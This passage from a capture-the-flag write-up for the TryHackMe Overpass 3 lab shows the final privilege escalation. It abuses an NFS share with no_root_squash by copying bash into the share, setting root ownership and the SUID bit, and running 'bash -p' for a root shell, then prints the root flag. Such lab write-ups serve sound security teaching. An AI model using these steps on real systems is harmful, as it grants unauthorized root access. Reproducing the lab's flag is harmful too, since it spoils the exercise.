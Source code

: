 * Note: For this part I used the explanation from [this](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) article.

Let's see how we are going to use this option:

By default, NFS shares change the root user to the `nfsnobody` user, an unprivileged user account. In this way, all root-created files are owned by `nfsnobody`, which prevents uploading of programs with the setuid bit set. However, if the `no_root_squash is used` option is used, remote root users are able to change any file on the shared file system and leave trojaned applications for other users to inadvertently execute.

Let's copy the bash binary to `james`'s home directory:

~~~
[james@localhost ~]$ cp /usr/bin/bash /home/james/
~~~

Then I abused the NFS permissions to change the owner and to set the SUID bit on my machine in the nfs share:

In the mounted directory:
~~~
$ sudo chown root:root bash
[sudo] password for user: 
                                                                                                                      
$ sudo chmod +s bash
~~~

Now if go back to the target machine, we can see the `bash` binary is owned by `root` with SUID bit set:

~~~
rwsr-sr-x  1 root  root  1219248 Oct 20 11:54 bash
-rw-------. 1 james james      38 Nov 17  2020 user.flag
~~~

## Root Flag

So we simply run `./bash -p` and we are root and we can read the root flag in `/root`:

~~~
[james@localhost ~]$ ./bash -p
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
bash-4.4# cd /root
bash-4.4# cat root.flag
thm{a4f6adb70371a4bceb32988417456c44}
~~~

Root flag: `thm{a4f6adb70371a4bceb32988417456c44}`


# D0N3! ; )

Thanks to the creators and the explaination of the ariticle!

Hope you learned something!

Have a good one! : )